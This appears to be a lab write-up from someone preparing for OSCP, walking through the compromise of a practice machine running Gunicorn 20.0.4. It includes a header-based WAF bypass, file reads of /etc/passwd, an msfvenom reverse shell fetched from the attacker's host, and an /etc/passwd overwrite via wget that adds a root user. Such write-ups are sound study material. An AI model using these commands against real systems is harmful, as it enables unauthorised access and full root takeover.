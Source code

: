 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: []
---
```

**Start 11:50 08-01-2025**

---
```
Scope:
192.168.247.134
```
# Recon

## Nmap

```bash
sudo nmap -sC -sT -sV -oN nmap 192.168.247.134 -p- -T5 -vvvv --min-rate=5000

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
13337/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and a HTTP port on `13337`.

HTTP port running **Gunicorn 20.0.4**.

I found the [following blog post](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/) on a vulnerability matching this version:

![](../../../assets/eb617303b99b98c8e5b0caba3bfebae9.png)

Let's check the website for now.

![](../../../assets/fc3527c5e80d924166e36cbaf44c5144.png)

![](../../../assets/7eef5b5cf1c4b8829d1d4da1af29e7a5.png)

It gives us some endpoints with the intended usage.

Let's enumerate further and check for hidden directories.


## Feroxbuster

```bash
feroxbuster --url http://192.168.247.134:13337 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![](../../../assets/66081e2318c7b8c7e6cba4edf94d826d.png)

We don't see any hidden directories that differ from the ones on the website.


# Initial Foothold

## 13337/TCP - HTTP

We start testing the endpoints one by one and find out by checking the `/logs` endpoint that the **WAF** (web app firewall) is activated:

![](../../../assets/d5bd5cf5aea7e897c9742591679dad20.png)

From the previously found blog we find the following:

![](../../../assets/701faa46f3ed6feb72cf6d712b4c5187.png)

We need to specify the following header in order to smuggle the request:

```bash
X-Forwarded-For: localhost
```

Now when we initiate our request through repeater we see the following response:

![](../../../assets/46b49fc59102b0d9f1564868e412a0f6.png)

>[!note]
>Remember, *Error* = good!

We get a 404 error but the text specifies that *no file has been specified*.

This means we just need to issue the file path to get access, let's try it out using `/etc/passwd`.

```bash
GET /logs?file=/etc/passwd HTTP/1.1
```

![](../../../assets/7fdc6afc350738f8fcef8ccb98026f1b.png)

Awesome, it worked! 

We notice the *clumsyadmin* user and their `/home` directory.


### local.txt

Using this technique we can get `local.txt` right away.

```bash
GET /logs?file=/home/clumsyadmin/local.txt HTTP/1.1
```

![](../../../assets/56163778fcc100b3513e2ec9c5b7b57d.png)


## Reverse Shell

![](../../../assets/eac71c2c0ba5ef88a2e7e406fffe83d7.png)

Via the `/update` endpoint we will upload a reverse shell payload created using `msfvenom`.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f elf -o shell
```

![](../../../assets/1d5298f33cdb0125d63267fc90d833fc.png)

We then add it to the request.

```bash
{
	"user":"clumsyadmin",
	"url":"http://192.168.45.236/shell"
}
```

![](../../../assets/a0013608afcb231321fc3180de0ff88c.png)

>[!caution]
>Remember to switch the Request mode to *POST*.

The response code is *200 - OK* which means the file has been succesfully uploaded, let's get our shell. For this we will go to the `/restart` endpoint and this should prompt the shell to work.

![](../../../assets/208c3690fd79e86a418e3f1d00771156.png)

Request via the endpoint wouldn't work, so I used Burp.

![](../../../assets/b4437e4523222f114803afda30b8de49.png)

![](../../../assets/2373c8049300fe59b5f7c6c773763093.png)

Then after upgrading our shell we can get to work on escalating privileges.


# Privilege Escalation

>[!note]
>I uploaded my `id_rsa.pub` key as `authorized_keys` to the newly created `.ssh` folder on the target so I could get an SSH shell.

![](../../../assets/7422dfccab35e6e070a11ed133fe9048.png)

We were not allowed to run `sudo -l`. 

![](../../../assets/ac646e55573a2eb56dfb1cf1236d8c56.png)

And we couldn't run `linpeas`.

I then enumerated the system some more:

![](../../../assets/b5a8b30b87e56e894a2faf7f4d883b0b.png)

![](../../../assets/0badad6fd904e80a101fdd5d739c616a.png)

![](../../../assets/267a0cc2f9476a0ed9d085f916f935a8.png)

After doing some searching I found this:

![](../../../assets/51904af152073b4241ae40d8cf0b26fb.png)

But the problem still existed of us not being able to `chmod` the script into an executable, thus rendering it useless.

![](../../../assets/d74f379a27688934aece0b73ec1b1519.png)

There was another PoC but this was yet again another script.

Let's check whether we can use any of the binaries.

>[!info]
>We find the `/wget` binary to be particularly useful.

![](../../../assets/e5e889f1b44897285c89af484b435f9d.png)

We can use the binary to overwrite the `/etc/passwd` file to upload our own `/etc/passwd` which allows us to `su` to `kali`.

```bash
/usr/bin/wget http://192.168.45.236/passwd -O /etc/passwd
```

We must now generate a new user and a new `passwd` file which we will upload:

```bash
# Generate new user
openssl passwd -1 -salt user3 pass123

# Create new passwd file
cat > passwd                         
user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash

# Overwrite existing /etc/passwd file
wget http://192.168.45.236/passwd -O /etc/passwd
```

![](../../../assets/a3265e054a516c36b69c6b2b5742b913.png)

And we have `root` privileges.


### proof.txt

![](../../../assets/b5af514643700ab38876d5f4ddef99c6.png)

---

**Finished 14:23 08-01-2025**

[^Links]: [[OSCP Prep]]

#priv-esc #feroxbuster #Gunicorn #web-attack #request-smuggling 
